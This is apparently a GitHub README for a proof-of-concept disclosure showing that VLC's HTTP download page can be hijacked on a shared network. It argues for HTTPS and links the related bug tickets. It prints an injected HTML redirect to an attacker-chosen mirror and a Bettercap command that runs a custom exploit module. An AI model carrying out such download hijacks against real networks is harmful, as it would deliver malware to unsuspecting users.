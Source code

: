 # PoC Video
https://www.youtube.com/watch?v=dhTAqCz7ktU

# Man in The Middle
VLC's official website, even having a valid SSL certificate, does not force users to use the HTTPS protocol. Major search engines have indexed VLC's website as HTTP so users are being redirected to the insecure version of the site.

Ludovic Fauvet of VideoLan denied that was possible to inject a malware in the current VLC software distribution and asked for a Proof of Concept: 
![alt text](https://raw.githubusercontent.com/drego85/Why-VLC-NEED-to-enforce-HTTPS/master/etixxx.png)

According to the official stats, published by VLC founder, the software has been downloaded over 2.3 billion times: https://twitter.com/etixxx/status/881926077836398592

That's a serious problem to be urgently worked on, because governments around the world infect with malware their citizens for spying purposes, [leading to torturing and killing in dictatorship](https://twitter.com/botherder/status/882243803448561665) when executables are being served in HTTP.

Through a "Man in The Middle" attack, it is possible to inject arbitrary HTML code on VLC's official website served over HTTP, deceiving the users to download an authentic installer file but actually redirecting them to a potentially malicious external resource which could deliver a malware-laced package. The attack is doable if both, the user and the attacker, are on the same network (i.e. public access point of an airport, hotel, etc.)

The result of the attack is the alteration of the download page (i.e. http://get.videolan.org/vlc/2.2.6/win32/vlc-2.2.6-win32.exe) where we modify the following parts of code:

```html
<meta http-equiv="refresh" content="5;URL='https://videolan.mirror.garr.it/mirrors/videolan/vlc/2.2.6/win32/vlc-2.2.6-win32.exe'" />

<span> If not, <a href="https://videolan.mirror.garr.it/mirrors/videolan/vlc/2.2.6/win32/vlc-2.2.6-win32.exe" id="alt_link">click here</a>.
```

# How To
In order to effectively carry out the attack, we used Bettercap (https://www.bettercap.org/) and a custom Ruby module "exploit_vlc.rb" which is made publicly available on this repo.

The custom Ruby module contains the URL of the mirror, which we want the victim to point to, for downloading the VLC installer, it is also possible to replace the checksum with one that’s valid for our malware.

Once the module has been customised, Bettercap can be started using root privileges as shown below:

$ sudo bettercap --proxy-module exploit_vlc.rb

Eventually, it would be possible to use a specific target calling the -T option and the network interface with the -I one. If no target is specified, all connected hosts of the network could become a potential target.

# Tickets to improve Browser Security 
Multiple tickets has been opened to Chrome Bug Tracker, Mozilla Firefox BugTracker and Tor Project's TorBrowser one in order to implement a feature to natively block or provide a big-red-warning (like for wrong TLS certificates) for users downloading executable code over HTTP in clear text.

That would likely obbly any software distribution to happen over an encrypted and authenticated channel.

Below the issues, please support them:

[Firefox: Warn when downloading executable files over HTTP](https://bugzilla.mozilla.org/show_bug.cgi?id=1303739)

[Chromne: Downloading windows executable over HTTP in clear-text should provide a red warning](https://twitter.com/fpietrosanti/status/882146954276483072)

[Tor Browser: Tor Browser does not provide red security warning for downloading executable in HTTP](https://trac.torproject.org/projects/tor/ticket/22809)


# Tickets to improve VideoLan
Multiple tickets to fix the situation, also considering the VideoLan project constrain and resources, has been opened but unfortunately there was not acknowledgement of the various sustainability proposals to be full-HTTPS.

All of those tickets has been closed as invalid or duplicate after a brief discussion denying the possibility to do it or declaring totally invalid the solutions proposed to achieve a full-HTTPS distribution of software, including threatening of being banned out of the ticketing system.

[Enforce HTTPS for distribution of software as a security measure against targeted malware attacks](https://github.com/etix/mirrorbits/issues/59)

[Enforce the uses of HTTPS for all websites of VLC/videolan.org to prevent MITM exploits] (https://trac.videolan.org/vlc/ticket/18472)

[Map all the existing VLC mirrors that already support HTTPS](https://trac.videolan.org/vlc/ticket/18484)

[Mirrors on fast HTTPS content delivery networks](https://trac.videolan.org/vlc/ticket/18491)

[Introduce Mirrors of VLC with Mirrors from SourceForge for VLC](https://trac.videolan.org/vlc/ticket/18492)

[Integrate Cloudflare free as an HTTPS domain fronting and caching for www.videolan.org and get.videolan.org] (https://trac.videolan.org/vlc/ticket/18486)

[A solution to provide secure downloads using existing mirrors](https://trac.videolan.org/vlc/ticket/18489]


# Credits
* Fabio (Naif) Pietrosanti 
* Andrea (Drego) Draghetti
* Eddy (mane) Boscolo

# Disclaimer 
All of provided information in this article is for educational purposes only. You accept full responsibility for the consequences of your use, or non-use, of any information provided by us through any means whatsoever.

